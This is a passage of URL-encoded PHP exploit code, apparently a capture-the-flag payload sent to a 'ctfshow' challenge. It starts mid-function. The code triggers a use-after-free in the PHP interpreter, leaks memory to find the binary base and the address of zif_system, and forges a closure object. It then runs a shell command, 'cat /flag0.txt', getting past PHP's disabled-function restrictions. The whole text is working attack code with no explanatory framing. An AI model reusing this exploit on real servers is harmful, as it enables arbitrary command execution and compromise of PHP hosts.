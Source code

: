 ```
0if(%24deref%20!%3d%200x786568326e6962)%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%7d%20else%20continue%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20%24data_addr%20%2b%20%24i%20*%208%3b%20%20%20%20%20%20%20%20%20%7d%20%20%20%20%20%7d%20%20%20%20%20%20function%20get_binary_base(%24binary_leak)%20%7b%20%20%20%20%20%20%20%20%20%24base%20%3d%200%3b%20%20%20%20%20%20%20%20%20%24start%20%3d%20%24binary_leak%20%26%200xfffffffffffff000%3b%20%20%20%20%20%20%20%20%20for(%24i%20%3d%200%3b%20%24i%20%3c%200x1000%3b%20%24i%2b%2b)%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%3d%20%24start%20-%200x1000%20*%20%24i%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3d%20leak(%24addr%2c%200%2c%207)%3b%20%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20%3d%3d%200x10102464c457f)%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20%24addr%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%7d%20%20%20%20%20%20%20%20%20%7d%20%20%20%20%20%7d%20%20%20%20%20%20function%20get_system(%24basic_funcs)%20%7b%20%20%20%20%20%20%20%20%20%24addr%20%3d%20%24basic_funcs%3b%20%20%20%20%20%20%20%20%20do%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%24f_entry%20%3d%20leak(%24addr)%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%24f_name%20%3d%20leak(%24f_entry%2c%200%2c%206)%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%20if(%24f_name%20%3d%3d%200x6d6574737973)%20%7b%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20leak(%24addr%20%2b%208)%3b%20%20%20%20%20%20%20%20%20%20%20%20%20%7d%20%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%2b%3d%200x20%3b%20%20%20%20%20%20%20%20%20%7d%20while(%24f_entry%20!%3d%200)%3b%20%20%20%20%20%20%20%20%20return%20false%3b%20%20%20%20%20%7d%20%20%20%20%20%20function%20trigger_uaf(%24arg)%20%7b%20%20%20%20%20%20%20%20%20%20%24arg%20%3d%20str_shuffle('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')%3b%20%20%20%20%20%20%20%20%20%24vuln%20%3d%20new%20vuln()%3b%20%20%20%20%20%20%20%20%20%24vuln-%3ea%20%3d%20%24arg%3b%20%20%20%20%20%7d%20%20%20%20%20%20if(stristr(php_os%2c%20'win'))%20%7b%20%20%20%20%20%20%20%20%20die('this%20poc%20is%20for%20*nix%20systems%20only.')%3b%20%20%20%20%20%7d%20%20%20%20%20%20%24n_alloc%20%3d%2010%3b%20%20%20%20%20%20%24contiguous%20%3d%20%5b%5d%3b%20%20%20%20%20for(%24i%20%3d%200%3b%20%24i%20%3c%20%24n_alloc%3b%20%24i%2b%2b)%20%20%20%20%20%20%20%20%20%24contiguous%5b%5d%20%3d%20str_shuffle('aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa')%3b%20%20%20%20%20%20trigger_uaf('x')%3b%20%20%20%20%20%24abc%20%3d%20%24backtrace%5b1%5d%5b'args'%5d%5b0%5d%3b%20%20%20%20%20%20%24helper%20%3d%20new%20helper%3b%20%20%20%20%20%24helper-%3eb%20%3d%20function%20(%24x)%20%7b%20%7d%3b%20%20%20%20%20%20if(strlen(%24abc)%20%3d%3d%2079%20%7c%7c%20strlen(%24abc)%20%3d%3d%200)%20%7b%20%20%20%20%20%20%20%20%20die(%22uaf%20failed%22)%3b%20%20%20%20%20%7d%20%20%20%20%20%20%24closure_handlers%20%3d%20str2ptr(%24abc%2c%200)%3b%20%20%20%20%20%24php_heap%20%3d%20str2ptr(%24abc%2c%200x58)%3b%20%20%20%20%20%24abc_addr%20%3d%20%24php_heap%20-%200xc8%3b%20%20%20%20%20%20write(%24abc%2c%200x60%2c%202)%3b%20%20%20%20%20write(%24abc%2c%200x70%2c%206)%3b%20%20%20%20%20%20write(%24abc%2c%200x10%2c%20%24abc_addr%20%2b%200x60)%3b%20%20%20%20%20write(%24abc%2c%200x18%2c%200xa)%3b%20%20%20%20%20%20%24closure_obj%20%3d%20str2ptr(%24abc%2c%200x20)%3b%20%20%20%20%20%20%24binary_leak%20%3d%20leak(%24closure_handlers%2c%208)%3b%20%20%20%20%20if(!(%24base%20%3d%20get_binary_base(%24binary_leak)))%20%7b%20%20%20%20%20%20%20%20%20die(%22couldn't%20determine%20binary%20base%20address%22)%3b%20%20%20%20%20%7d%20%20%20%20%20%20if(!(%24elf%20%3d%20parse_elf(%24base)))%20%7b%20%20%20%20%20%20%20%20%20die(%22couldn't%20parse%20elf%20header%22)%3b%20%20%20%20%20%7d%20%20%20%20%20%20if(!(%24basic_funcs%20%3d%20get_basic_funcs(%24base%2c%20%24elf)))%20%7b%20%20%20%20%20%20%20%20%20die(%22couldn't%20get%20basic_functions%20address%22)%3b%20%20%20%20%20%7d%20%20%20%20%20%20if(!(%24zif_system%20%3d%20get_system(%24basic_funcs)))%20%7b%20%20%20%20%20%20%20%20%20die(%22couldn't%20get%20zif_system%20address%22)%3b%20%20%20%20%20%7d%20%20%20%20%20%20%20%24fake_obj_offset%20%3d%200xd0%3b%20%20%20%20%20for(%24i%20%3d%200%3b%20%24i%20%3c%200x110%3b%20%24i%20%2b%3d%208)%20%7b%20%20%20%20%20%20%20%20%20write(%24abc%2c%20%24fake_obj_offset%20%2b%20%24i%2c%20leak(%24closure_obj%2c%20%24i))%3b%20%20%20%20%20%7d%20%20%20%20%20%20write(%24abc%2c%200x20%2c%20%24abc_addr%20%2b%20%24fake_obj_offset)%3b%20%20%20%20%20write(%24abc%2c%200xd0%20%2b%200x38%2c%201%2c%204)%3b%20%20%20%20%20%20write(%24abc%2c%200xd0%20%2b%200x68%2c%20%24zif_system)%3b%20%20%20%20%20%20%20(%24helper-%3eb)(%24cmd)%3b%20%20%20%20%20exit()%3b%20%7d%20%20ctfshow(%22cat%20%2fflag0.txt%22)%3bexit()%3b%20%3f%3e
```
